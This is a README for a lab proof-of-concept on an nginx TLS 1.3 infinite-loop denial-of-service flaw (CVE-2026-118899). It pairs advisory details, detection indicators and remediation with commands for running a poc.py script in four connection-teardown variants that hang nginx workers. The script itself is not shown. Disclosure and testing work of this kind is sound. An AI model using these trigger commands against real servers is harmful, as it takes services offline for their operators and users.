

<div align="center">

# CVE-2026-118899

### nginx — TLS 1.3 Infinite Loop Reading Request Body


</div>

---

## Overview

An unbounded loop (CWE-835) in nginx's TLS request-body read path causes a worker to spin at 100% CPU when a client over TLS 1.3 announces a large `Content-Length`, delivers part of the body, then winds down the TLS session in a way that leaves the read loop without a wakeup event.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-118899 |
| **CVSS 3.1** | `7.5 High` — `AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H` |
| **CVSS 4.0** | `8.7 High` |
| **CWE** | CWE-835 (Infinite Loop) |
| **Affected** | nginx 1.13.0 – 1.31.8 |
| **Fixed** | nginx 1.30.7 / 1.31.9 |
| **Advisory** | https://my.f5.com/manage/s/article/K000163930 |
| **Auth Required** | None |
| **Disclosed** | 2026-11-18 |

---

## Vulnerability Details

With `ssl on` and TLS 1.3 enabled on an `http` listener, the read loop for large request bodies lacks a proper wakeup after the TLS layer indicates there is no more data to read. The worker spins waiting for data that will never arrive, consuming 100% CPU. All subsequent connections to that worker are starved.

**Trigger requirements:** `ssl on` with TLS 1.3 on an HTTP listener that accepts bodies.

---

## Attack Flow



---

## PoC Usage

> **Warning:** Lab environment only. The hung worker stops serving all requests until restarted.

### Setup

```bash
docker compose up -d --build
```

### Trigger the infinite loop (default: stall variant)

```bash
python3 poc.py -v stall -n 4
```

Expected output — vulnerable build:
```
[+] worker is hung (3 consecutive health timeouts)
[!] VULNERABLE - worker stopped serving
    confirm CPU: docker stats --no-stream   (nginx at ~100%)
```

### Confirm CPU spike

```bash
docker stats --no-stream
docker compose exec nginx ps -o pid,pcpu,comm -C nginx
```

### TLS teardown variants

The precise teardown sequence is not public — four variants are provided:

```bash
# Stall: stop sending, socket stays open (default)
python3 poc.py -v stall -n 4

# TLS close_notify mid-body, TCP half-open (most reliable on slow hosts)
python3 poc.py -v close_notify -n 4

# TCP RST mid-body
python3 poc.py -v rst -n 4

# Drip single bytes, then stall
python3 poc.py -v drip -n 4
```

### Available flags

| Flag | Description |
|---|---|
| `-v stall\|close_notify\|rst\|drip` | Teardown variant (default: `stall`) |
| `-n N` | Number of trigger attempts (default: `4`) |
| `--host HOST` | nginx host (default: `127.0.0.1`) |
| `--port PORT` | HTTPS port (default: `443`) |

### Expected output — patched build

```bash
sed -i 's/nginx:1.31.8/nginx:1.31.9/' nginx/Dockerfile
docker compose build --no-cache nginx && docker compose up -d
python3 poc.py -v stall -n 4
# Worker remains responsive — health checks pass
```

---

## Detection

| Indicator | Notes |
|---|---|
| nginx worker at ~100% CPU with almost no traffic | `ps aux` or `top`: nginx worker process pinned |
| `/health` and all requests timing out | Master process alive, workers unresponsive |
| No signal 11 (no crash) | The worker loops — does not die — this is the distinguishing feature |

---

## Impact

Unauthenticated remote DoS. One crafted connection per nginx worker is sufficient. With `worker_processes N`, N connections disable the entire server. The worker does not die — only a manual restart recovers it.

---

## Remediation

Upgrade to **nginx 1.30.7** or **1.31.9**. If patching is not immediately possible, remove `TLSv1.3` from `ssl_protocols` on HTTP listeners that accept bodies.

| Action | Detail |
|---|---|
| Upgrade nginx | 1.30.7 (stable) or 1.31.9 (mainline) |
| Workaround | Remove `TLSv1.3` from `ssl_protocols` on body-accepting HTTP listeners |
| Monitor workers | Alert on nginx workers with CPU > 90% and near-zero request throughput |

---

## References

- nginx Security Advisories: https://nginx.org/en/security_advisories.html
- Advisory K000163930: https://my.f5.com/manage/s/article/K000163930
- CVE Record: https://www.cve.org/CVERecord?id=CVE-2026-118899

---

> **Disclaimer:** For authorized security research and controlled lab use only. MIT License.